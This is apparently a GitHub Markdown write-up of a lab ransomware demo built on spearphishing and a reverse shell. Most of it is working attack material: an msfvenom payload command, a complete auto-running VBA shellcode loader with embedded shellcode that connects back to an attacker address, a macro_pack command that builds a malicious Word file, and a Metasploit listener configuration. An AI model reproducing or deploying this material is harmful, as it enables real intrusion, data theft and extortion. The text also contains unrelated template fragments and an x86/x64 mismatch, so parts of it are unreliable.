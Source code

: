 # Ransomware Attack Demo: Basic Spearphishing and Exfiltration
This document describes the setup and execution of a demo showing a simple example of a **Ransomware Attack**.

<br/>

## Attack Description
In the scenario depicted below, the adversary will inject in a carefully constructed **Word document** a **VBA Script** as an obfuscated payload. The adversary will then send this document to the victim through a tailored and customized mail message ([Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)).<br/>
It is assumed that the victim will fall prey of the **Spearphishing Attack** and will download and open the document. Upon the opening, Microsoft Word will **execute** the VBA Script ([Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/005/)): this allows the adversary to have a **reverse shell** running on the victims platform and remotely controlled by the adversary itself.<br/>
The attacker will then **exfiltrate** victim's files over the established channel ([Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)) and **encrypt** them in order to **compromise** their **integrity** and to demand a **ransom** ([Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486/)).

<br/>

## Threat Model
The **Threat Model** necessary for this attack requires the adversary
* knowing the e-mail address of the victim; 
* being able to lure the victim to open the Spearphishing Attachment;
* being able to establish a TCP connection with the victim's machine;
* acquiring enough privileges on the victim's system in order to execute exfiltration and encryption commands.

<br/>

## Setup
To perform the attack described above I used two Virtual Machines (referenced to as VMs in the following)
1. The attacker is associated with a Kali Linux VM, with IPv4 Address `192.168.56.102`;
2. The victim runs a Windows 10 VM, with IPv4 Address `192.168.56.101`.

Both VMs have their network adapter configured as "Attached to NAT" in order to allow intra-communication withing the local network, but also inter-communication on the internet.

<br/>

## Preliminaries
In order to create the Word document containing the malicious VBA Script, I have used `msfvenom` and a tool called [macro_pack](https://github.com/sevagas/macro_pack). Running the following command on Kali VM
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=192.168.56.102 LPORT=4444 -f vba > reverse_shell_exploit.vba
```
I am able to obtain a VBA Script that, when executed, will try to establish a TCP connection to the pair `<IPv4, Port> = <192.168.56.102, 4444>`. To make it more effective, I have edited it in order to launch a thread to do so:
```vb
#If VBA7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As Long, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
#Else
    Private Declare Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As Long, ThreadParameter As Long, ByVal CreateFlags As Long, ByRef ThreadId As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Destination As Long, ByRef Source As Any, ByVal Length As Long) As Long
#EndIf

Private Sub Document_Open()
    On Error Resume Next
    Dim myBytes As Variant
    Dim myThread As Long
    
    #If VBA7 Then
        Dim myAlloc As LongPtr
        Dim result As LongPtr
    #Else
        Dim myAlloc As Long
        Dim result As Long
    #EndIf

    myBytes = Array(252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,81,86,72,49,210,101,72,139,82,96,72,139, _
                    82,24,72,139,82,32,72,15,183,74,74,77,49,201,72,139,114,80,72,49,192,172,60,97,124,2,44, _
                    32,65,193,201,13,65,1,193,226,237,82,72,139,82,32,65,81,139,66,60,72,1,208,102,129,120, _
                    24,11,2,15,133,114,0,0,0,139,128,136,0,0,0,72,133,192,116,103,72,1,208,139,72,24,80,68, _
                    139,64,32,73,1,208,227,86,77,49,201,72,255,201,65,139,52,136,72,1,214,72,49,192,172,65, _
                    193,201,13,65,1,193,56,224,117,241,76,3,76,36,8,69,57,209,117,216,88,68,139,64,36,73,1, _
                    208,102,65,139,12,72,68,139,64,28,73,1,208,65,139,4,136,72,1,208,65,88,65,88,94,89,90, _
                    65,88,65,89,65,90,72,131,236,32,65,82,255,224,88,65,89,90,72,139,18,233,75,255,255,255, _
                    93,73,190,119,115,50,95,51,50,0,0,65,86,73,137,230,72,129,236,160,1,0,0,73,137,229,73, _
                    188,2,0,17,92,192,168,56,102,65,84,73,137,228,76,137,241,65,186,76,119,38,7,255,213,76, _
                    137,234,104,1,1,0,0,89,65,186,41,128,107,0,255,213,106,10,65,94,80,80,77,49,201,77,49, _
                    192,72,255,192,72,137,194,72,255,192,72,137,193,65,186,234,15,223,224,255,213,72,137, _
                    199,106,16,65,88,76,137,226,72,137,249,65,186,153,165,116,97,255,213,133,192,116,10, _
                    73,255,206,117,229,232,147,0,0,0,72,131,236,16,72,137,226,77,49,201,106,4,65,88,72, _
                    137,249,65,186,2,217,200,95,255,213,131,248,0,126,85,72,131,196,32,94,137,246,106,64, _
                    65,89,104,0,16,0,0,65,88,72,137,242,72,49,201,65,186,88,164,83,229,255,213,72,137,195, _
                    73,137,199,77,49,201,73,137,240,72,137,218,72,137,249,65,186,2,217,200,95,255,213,131, _
                    248,0,125,40,88,65,87,89,104,0,64,0,0,65,88,106,0,90,65,186,11,47,15,48,255,213,87,89, _
                    65,186,117,110,77,97,255,213,73,255,206,233,60,255,255,255,72,1,195,72,41,198,72,133,246, _ 
                    117,180,65,255,231,88,106,0,89,73,199,194,240,181,162,86,255,213)

    myAlloc = VirtualAlloc(0, UBound(myBytes), &H1000, &H40)
    
    For i = LBound(myBytes) To UBound(myBytes)
        result = RtlMoveMemory(myAlloc + i, myBytes(i), 1)
    Next i
    
    result = CreateThread(0, 0, myAlloc, 0, 0, myThread)
End Sub

Private Sub AutoOpen()
    Document_Open
End Sub

Private Sub Workbook_Open()
    Document_Open
End Sub
```
To then inject this payload inside a Word document I use `macro_pack`, by running the following command:
```
macro_pack.exe -f reverse_shell_exploit.vba -o -G malicious.docm
```
![Photo of Mountain](images/mountain.jpg)
> **Note:** As stated by the author of this tool, a Windows platform with the right MS Office applications installed is required for Office documents automatic generation or trojan features, so I indeed needed to run the `macro_pack` command on an appropriate Windows VM (not previously mentioned for ease of global understanding).

<br/>

## Spearphishing
Once the adversary was able to generate the payload `malicious.docm`, he needs to inject it into the victim's environment. I tried to perform a Spoofed Spearphishing Attack using [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit) and replicating the `units.it` domain using [hMailServer]( https://www.hmailserver.com), but there were compatibility issues as stated [here](https://github.com/trustedsec/social-engineer-toolkit/issues/810).<br/>
Therefore I assumed that the adversary was able to obtain **Valid Credentials** for one **Domain Account** of the `units.it` domain, so it was indeed able to send the required Spearphishing Attachment to the victim.
![Photo of Mountain](images/mountain.jpg)

<br/>

## Exfiltration & Impact
In order to be able to have a **reverse shell** at the victim's side connected to a remote shell client at the adversary's side, the attacker needs to launch a **listener** (prior to the opening of the `malicious.docm` payload).<br/>
To do so, I have created a handler configuration file for `metasploit`, namely `handler.rc`, to instruct it to listen at port `4444` for TCP connections:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.102
set LPORT 4444
set ExitOnSession false
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
set AutoRunScript post/windows/manage/migrate NAME=explorer.exe KILL=false
set SessionCommunicationTimeout 300
set EnableUnicodeEncoding true
set HandlerSSLCert /path/to/cert.pem
set StageVerificationCode random
exploit -j
```
Then the listener is launched using the command
```
msfconsole -q -r handler.rc
```

> Note: Example page content from [GetGrav.org](https://learn.getgrav.org/17/content/markdown), included to demonstrate the portability of Markdown-based content

[^1]: [Markdown - John Gruber](https://daringfireball.net/projects/markdown/)

